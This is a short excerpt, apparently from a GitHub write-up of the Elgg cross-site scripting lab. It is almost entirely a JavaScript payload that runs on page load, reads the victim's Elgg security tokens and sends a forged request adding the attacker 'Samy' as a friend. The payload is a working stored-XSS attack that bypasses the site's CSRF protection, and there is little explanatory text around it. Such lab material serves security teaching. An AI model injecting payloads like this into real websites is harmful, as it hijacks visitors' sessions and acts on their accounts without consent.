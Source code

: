 ```
<script type="text/javascript">
  window.onload = function () {
    var Ajax = null;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
    //Construct the HTTP request to add Samy as a friend.
    var sendurl =
      "http://www.xsslabelgg.com/action/friends/add?friend=47" + ts + token; //FILL IN
    //Create and send Ajax request to add friend
    Ajax = new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
    Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    Ajax.send();
  };
</script>

```
![alt text](https://github.com/Qurat-ul-ainn/Cross-scripting-attack/blob/main/44.PNG)
